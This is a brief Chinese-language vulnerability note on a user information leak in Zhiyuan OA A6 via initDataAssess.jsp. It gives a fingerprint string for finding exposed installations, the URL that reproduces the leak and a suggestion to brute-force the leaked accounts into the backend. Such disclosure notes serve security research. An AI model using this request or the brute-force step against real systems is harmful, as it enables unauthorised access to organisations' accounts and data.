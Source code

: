 # 致远OA A6 initDataAssess.jsp 用户敏感信息泄露

## 漏洞描述

致远OA A6 initDataAssess.jsp 存在用户敏感信息泄露

可以通过得到的用户名爆破用户密码进入后台进一步攻击

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘 

<a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问下列URL泄露用户信息

```plain
http://xxx.xxx.xxx.xxx/yyoa/assess/js/initDataAssess.jsp
```
